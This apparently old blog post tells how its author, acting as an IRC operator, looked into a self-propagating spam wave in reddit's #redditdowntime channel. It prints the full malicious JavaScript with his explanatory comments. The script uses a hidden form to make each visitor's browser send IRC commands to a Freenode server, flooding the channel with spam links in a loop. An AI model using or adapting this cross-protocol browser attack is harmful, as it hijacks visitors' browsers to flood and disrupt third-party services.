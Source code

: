 ```yaml
--- 
layout: post
title: "Using a browser to piss off IRC users, or, spamming #redditdowntime"
tags: 
- miscellaneous
- software development
created: 1264585384
---
```

One of my most favorite sites on the internet, <a id="aptureLink_oItUAC4mad" href="http://www.crunchbase.com/company/reddit">reddit</a>, took [some downtime](http://www.reddit.com/r/announcements/comments/au8tj/reddit_will_be_down_for_maintenance_for_about_two/) this evening while doing some infrastructure (both hardware and software) upgrades. On their down-page, the reddit team invited everybody to join the `#redditdowntime` channel on the <a id="aptureLink_JieW5a5FB1" href="http://twitter.com/freenodestaff">Freenode</a> network, ostensibly to help users pass the time waiting for their pics and <a id="aptureLink_SYNJDA40tz" href="http://www.reddit.com/r/IAmA/">IAMAs</a> to come back online.

Shortly after reddit started their scheduled outage, I joined the channel to pass the time while I debated what I should do with my evening. Within minutes the channel was **flooded** with a number of users, varying between spouting reddit memes in caps. link-spamming or engaging in casual chit-chat. I complained to one of the ops and fairly well-known-to-redditors employee: <a id="aptureLink_dwt02hKbCy" href="http://twitter.com/jedberg">jedberg</a> about the lack of moderation and he nearly instantly gave me `+o` (ops) in the channel. Not one to take my ops duty lightly, I started kicking spammers, warning habitual caps-lock users and tried to keep things generally civil through the deluge of messages consuming the channel. 

Towards the end of the scheduled outage, some automated link-spamming started to appear and once it started it triggered more and more link-spamming. Clearly whatever was behind the <a id="aptureLink_YZZe6EYEsL" href="http://www.crunchbase.com/company/bit-ly">bit.ly</a> link was responsible for the self-propagating nature of the spamming. While the other moderators and myself tried to keep up with banning people I used wget to fetch the destination of the clearly malicious bit.ly URL to determine what we were dealing with. What I found is one of the more clever bits of JavaScript I think I've seen in recent months.

After bringing the site back up for a few minutes, reddit had to take it back down after noticing some problems with the upgrade, so another flood of users filled into the `#redditdowntime` channel and the link-spamming got worse. The most interesting aspect of the JavaScript in the code snippet below is how simple it is, I've commented it up a bit to help explain what's actually going on:

<code type="javascript">
<iframe id="y" name="y" style="display:none"></iframe>

<form method="post" target="y" action="http://irc.freenode.net:6667/" enctype="text/plain" id="f" style="display:none">
    <textarea name="x" id="x"></textarea>
</form>

<script type="text/javascript">
    /* 
     * Generate a random string of characters to use for an IRC nick
     */
    function rnd(){
        var chars="abcdefghijklmnopqrstuvwxyz";
        var r='';
        var length=Math.floor(Math.random()*10+3);
        for (var i=0;i<length;i++){
            var rnum=Math.floor(Math.random() * chars.length);
            r += chars.substring(rnum, rnum+1);
        }
        return r;
    }
    function lol(){
        /* Grab a reference to the textarea */
        var x = document.getElementById('x');
        /* Grab a reference to the form itself */
        var f = document.getElementById('f');
        /* Generate a fake user-name */
        var i = rnd();
        /* Generate a fake nick */
        var n = rnd();

        /* 
         * Build a series of IRC commands into a string:
         *   - Set the username
         *   - Set the nick 
         *   - Join the channel to spam (#redditdowntime)
         *   - Queue up a bunch of PRIVMSG commands to the channel with the spam link
         */
        x.value='\r\nUSER '+i+' 8 * :'+n+'\r\nNICK '+n+'\r\nJOIN #redditdowntime\r\n'+new Array(99).join('PRIVMSG #redditdowntime :http://bit.ly/lolreddit\r\n')+'';

        /* Submit the form, effectively sending the textarea contents to an IRC server */
        f.submit();

        /* Setup a loop for maximum irritation */
        setTimeout(lol, 5000);
    }
    lol();
</script>
<h1>DIGG ROOLZ! REDDIT DROOLZ!</h1></code>
